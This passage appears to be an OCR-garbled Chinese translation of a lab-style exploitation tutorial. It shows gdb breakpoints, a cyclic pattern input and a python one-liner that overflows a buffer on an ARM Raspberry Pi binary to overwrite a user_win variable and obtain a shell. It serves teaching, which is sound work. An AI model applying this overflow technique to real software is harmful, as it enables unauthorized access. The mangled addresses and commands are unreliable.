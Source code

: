 让我们使用 gdb 运行二进制文件并输入它，同时不要忘记将断点放在 CMP 指令处。

> GEF > b * 0x 00010600
> 0x 10600 处的断点 3
> 
> GEF > r aa 0 aa 1 aa 2 aa 3 aa 4 aa 5a a6 aa 7 aa 8 aa 9 ab 0 ab 1 ab 2 ab 3 ab 4 ab 5 ab 6 ab 7 ab 8 ab 9 AC 0 AC 1 AC 3 AC 5 AC 6 AC 7 AC 8 AC 9 ad 0 ad 1 ad 2 ad 3 ad 4 ad 5 ad 6 ad 7 ad 8 ad 9 a E0 AE 1 AE 2 AE 3 AE 4 AE 5 AE 6 AE 7 AE 8 AE 9 af 0 a f1 af 3 af 4 a F5 af 6 af 7 af 8 a F9 ag 0 ag 1 ag 2 ag 3 ag 45 ag 6 ag 7 ag 8 ag 9 ag 9 ag 9 a。

![](img/98631a4d997789f99b794506af6162d2.png)

断点已命中。现在检查 r3 的值

将该值复制到模式生成器中，以找到偏移量。

![](img/9044f83fedeeb3485c74510c6a7e923d.png)

所以我们找到了偏移量。第 12 个字符之后的字符将覆盖 user_win 变量。所以我们应该在输入的 12 个字符后加上 4 个 B(“BBBB”)来覆盖 user_win，从而得到我们的精彩 shell。

所以漏洞会是这样的

> pi @ raspberrypi:~/ASM/integer overflow $。/integer overflow $(python-c ' print " A " * 12+" BBBB "+A *(261–12–4)')

所以最后的关键时刻…让我们运行漏洞

![](img/6c7ff20980e90034c63cc2531af6217f.png)

